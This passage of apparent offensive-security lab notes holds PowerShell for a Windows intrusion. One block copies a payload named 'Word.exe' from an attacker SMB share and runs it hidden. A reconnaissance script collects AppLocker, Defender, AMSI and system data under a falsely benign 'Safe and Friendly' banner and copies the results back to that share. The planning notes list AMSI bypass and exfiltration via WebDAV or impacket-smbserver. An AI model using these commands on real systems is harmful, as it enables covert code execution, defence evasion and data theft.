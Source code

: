 ```powershell
Copy-Item -Path "\\10.11.3.193\Share\Word.exe" -Destination "C:\Programdata\Word.exe"
Start-Job -ScriptBlock { Start-Process -FilePath "C:\Programdata\Word.exe" -Wait -WindowStyle Hidden }
```
- https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7.4
#### Bran from my Brain Approach 

- Make it less black-box - forward output back to my box
	- AMSI bypass

- Enumerator
	- PowerShell Version
	- Contrained Language mode
	- AMSI enumerator
	- Get-Process - check for Windows Defender
	- Check if LOLBASes exist - !!

- Exfil Data
	- WebDAV server
	- impacket-smbserver


This was the initial script to enumerate 
```powershell
$pwshCSL = $ExecutionContext.SessionState.LanguageMode
$pwshCmds = Command *
$ISMAprovider = Get-ChildItem -Path 'HKLM:\SOFTWARE\Classes\CLSID\{2781761E-28E0-4109-99FE-B9D127C57AFE}'
$applockPol = Get-AppLockerPolicy -Effective
$allProcs = Get-Process
$boxInfo = Get-ComputerInfo
$WinDStat = Get-MpComputerStatus
$logMallProviders = logman query providers
$logMISMAProvider = logman query providers Microsoft-Antimalware-Scan-Interface
Write-Output "================================================================================" > C:\programdata\info.txt
Write-Output "The Happy, Safe and Friendly PowerShell Checking your PowerShell Secruity Script" >> C:\programdata\info.txt
Write-Output "================================================================================" >> C:\programdata\info.txt
Write-Output $pwshCSL >> C:\programdata\info.txt
Write-Output $pwshCmds >> C:\programdata\info.txt
Write-Output $ISMAprovider >> C:\programdata\info.txt
Write-Output $applockPol >> C:\programdata\info.txt
Write-Output $allProcs >> C:\programdata\info.txt
Write-Output $boxInfo >> C:\programdata\info.txt
Write-Output $WinDStat >> C:\programdata\info.txt
Write-Output $logMallProviders >> C:\programdata\info.txt
Write-Output $logMISMAProvider >> C:\programdata\info.txt
Copy-Item -Path "C:\programdata\info.txt" -Destination "\\10.11.3.193\Share"

```
- https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass
- https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters
- https://swisskyrepo.github.io/PayloadsAllTheThings/Methodology%20and%20Resources/Windows%20-%20Defenses/#applocker
- https://swisskyrepo.github.io/PayloadsAllTheThings/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute/
- https://swisskyrepo.github.io/PayloadsAllTheThings/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass/#which-endpoint-protection-is-using-amsi
